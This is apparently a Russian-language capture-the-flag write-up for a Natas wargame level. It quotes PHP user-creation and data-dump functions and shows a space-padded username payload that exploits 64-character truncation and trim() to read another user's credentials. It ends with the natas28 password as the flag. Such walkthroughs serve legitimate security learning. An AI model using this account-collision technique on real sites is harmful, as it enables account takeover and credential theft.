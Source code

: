 Несмотря на наличие SQL, это обман, иньекций тут нет
Для начала создадим пользователя
```php
function createUser($link, $usr, $pass){

    if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
    $user=mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password=mysqli_real_escape_string($link, substr($pass, 0, 64));

    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysqli_query($link, $query);
    if(mysqli_affected_rows($link) > 0){
        return True;
    }
    return False;
}
```
интересно что
1) есть проверка на наличие пробелов в начале/конце строки
2) есть обрезка строки после 64 символа
проверяется не обрезанная строка, как итог, если мы подсуним:
```payload
username = natas28{64-len('natas28') пробелов}' (это просто ковычка в конце)
```
получим что мы пройдем проверку на наличие пробелов в конце строки
и создаим пользователя natas28 с кучей пробелов в конце ника

для дальнейшего взаимодействия используем
```payload
username = natas28{64-len('natas28') пробелов}
```
теперь подсуним эти данные, они пройдут валидацию тк пользователь создан
обратим внимание на
```php
function dumpData($link,$usr){

    $user=mysqli_real_escape_string($link, trim($usr)); #слабое место точно тут

    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row,true);
            }
        }
    }
    return False;
}
```
эта функция должна вывести логин пароль пользователя
но тут есть **trim**, который обрежет пробелы в логине
и как итог просто выведет креды для natas28
получаем: 
<details>
<summary>Флаг</summary>
[username] =&gt; natas28
[password] =&gt; 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
</details>
